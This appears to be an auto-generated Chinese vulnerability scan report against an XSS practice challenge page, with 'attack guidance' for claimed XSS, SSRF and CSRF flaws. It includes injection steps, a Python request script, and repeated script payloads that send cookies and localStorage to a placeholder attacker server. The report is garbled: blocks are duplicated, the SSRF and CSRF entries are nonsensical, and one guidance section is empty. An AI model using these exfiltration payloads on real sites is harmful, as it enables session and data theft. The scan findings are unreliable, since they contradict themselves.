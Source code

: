 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: javascript:alert(1)
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   javascript:alert(1)
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': 'javascript:alert(1)'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### SSRF 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: http://localhost/admin
- 修复建议: 建立URL白名单，禁止访问内网地址，禁用不必要的协议支持

#### 攻击指导

### CSRF 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: level3.php
- 严重程度: high
- 验证载荷: 跨站请求伪造
- 修复建议: 实施CSRF令牌，验证Referer头，使用SameSite Cookie属性
